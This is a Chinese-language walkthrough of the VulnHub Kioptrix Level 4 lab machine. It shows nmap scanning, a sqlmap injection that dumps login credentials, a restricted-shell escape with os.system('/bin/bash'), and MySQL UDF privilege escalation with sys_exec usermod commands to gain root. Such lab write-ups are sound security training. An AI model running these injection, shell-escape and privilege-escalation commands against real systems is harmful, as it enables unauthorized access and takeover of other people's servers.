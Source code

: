 # Kioptrix4 通关笔记

- 笔记内容由 [xidaner](https://github.com/xidaner) 提供,我仅作部分内容修改

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**地址**
- https://www.vulnhub.com/entry/kioptrix-level-13-4,25/

**Description**
```
Again a long delay between VMs, but that cannot be helped. Work, family must come first. Blogs and hobbies are pushed down the list. These things aren’t as easy to make as one may think. Time and some planning must be put into these challenges, to make sure that:

1. It’s possible to get root remotely [ Edit: sorry not what I meant ]

1a. It’s possible to remotely compromise the machine

    Stays within the target audience of this site

    Must be “realistic” (well kinda…)

    Should serve as a refresher for me. Be it PHP or MySQL usage etc. Stuff I haven’t done in a while.

I also had lots of troubles exporting this one. So please take the time to read my comments at the end of this post.

Keeping in the spirit of things, this challenge is a bit different than the others but remains in the realm of the easy. Repeating myself I know, but things must always be made clear: These VMs are for the beginner. It’s a place to start.

I’d would love to code some small custom application for people to exploit. But I’m an administrator not a coder. It would take too much time to learn/code such an application. Not saying I’ll never try doing one, but I wouldn’t hold my breath. If someone wants more difficult challenges, I’m sure the Inter-tubes holds them somewhere. Or you can always enroll in Offsec’s PWB course. *shameless plug

-- A few things I must say. I made this image using a new platform. Hoping everything works but I can’t test for everything. Initially the VM had troubles getting an IP on boot-up. For some reason the NIC wouldn’t go up and the machine was left with the loopback interface. I hope that I fixed the problem. Don’t be surprised if it takes a little moment for this one to boot up. It’s trying to get an IP. Be a bit patient. Someone that tested the image for me also reported the VM hung once powered on. Upon restart all was fine. Just one person reported this, so hoping it’s not a major issue. If you plan on running this on vmFusion, you may need to convert the imagine to suit your fusion version.

-- Also adding the VHD file for download, for those using Hyper-V. You guys may need to change the network adapter to “Legacy Network Adapter”. I’ve test the file and this one seems to run fine for me… If you’re having problems, or it’s not working for any reason email comms[=]kioptrix.com

Thanks to @shai_saint from www.n00bpentesting.com for the much needed testing with various VM solutions.

Thanks to Patrick from Hackfest.ca for also running the VM and reporting a few issues. And Swappage & @Tallenz for doing the same. All help is appreciated guys

So I hope you enjoy this one.

The Kioptrix Team

Source: http://www.kioptrix.com/blog/?p=604

**Note: Just a virtual hard drive. You'll need to create a new virtual machine & attach the existing hard drive**
```

**知识点**
- sql 注入
- mysql udf 提权

---

# 前期-信息收集
## nmap

开机后我们发现 这个用户名和密码是不知道的

![image](../../../../assets/img/安全/实验/VulnHub/Kioptrix4/1.png)

在虚拟机中要先接入到和 kali 一个网段中.然后我们要知道这个虚拟机的 ip 地址,就要用到 IP 探活.

```
nmap -sP <你虚拟机网卡的网段> /24
```

![image](../../../../assets/img/安全/实验/VulnHub/Kioptrix4/2.png)

可以发现网段中一共有 4 个 ip 地址,除去本机和 kali 剩下的就是靶机的 ip 地址

---

## 扫描开放端口

```
nmap 192.168.17.130
```

![image](../../../../assets/img/安全/实验/VulnHub/Kioptrix4/3.png)

可以发现,目标打开了 80 端口

![image](../../../../assets/img/安全/实验/VulnHub/Kioptrix4/4.png)

目测可以注入,尝试了简单 payload,下面选择直接跑 sqlmap

---
---
---

# 中期-漏洞利用
## sql注入

代码:

```
sqlmap -u http://192.168.17.130/checklogin.php
--data="myusername=admin&mypassword=123&Submit=Login" -p mypassword --dump -T members -D members
```

![image](../../../../assets/img/安全/实验/VulnHub/Kioptrix4/9.png)

```
 id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
```

---
---
---

# 后期-拿shell-提权
## 尝试 SSH 登陆

输入用户名和密码登陆进去

![image](../../../../assets/img/安全/实验/VulnHub/Kioptrix4/10.png)

这里用了 echo 命令获取交互 shell
```
echo os.system("/bin/bash")
whoami
ifconfig
```

![image](../../../../assets/img/安全/实验/VulnHub/Kioptrix4/11.png)

查看服务器下的文件
```
cd /var/www/
cat checklogin.php
```

![image](../../../../assets/img/安全/实验/VulnHub/Kioptrix4/12.png)

---

## 登陆 MYSQL

```
mysql -u root -p
```

---

![image](../../../../assets/img/安全/实验/VulnHub/Kioptrix4/13.png)

## mysql UDF 提权

在 mysql 中输入
```
use mysql
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys_exec('id > /tmp/out; chown john.john /tmp/out');
```
![image](../../../../assets/img/安全/实验/VulnHub/Kioptrix4/16.png)

```
use musql

select sys_exec('usermod -a -G admin ')
select sys_exec('usermod -a -G admin john');
```
![image](../../../../assets/img/安全/实验/VulnHub/Kioptrix4/17.png)
![image](../../../../assets/img/安全/实验/VulnHub/Kioptrix4/18.png)

在我们退出去后,尝试登陆到 root

![image](../../../../assets/img/安全/实验/VulnHub/Kioptrix4/19.png)

`whoami` 确认获取 `root`
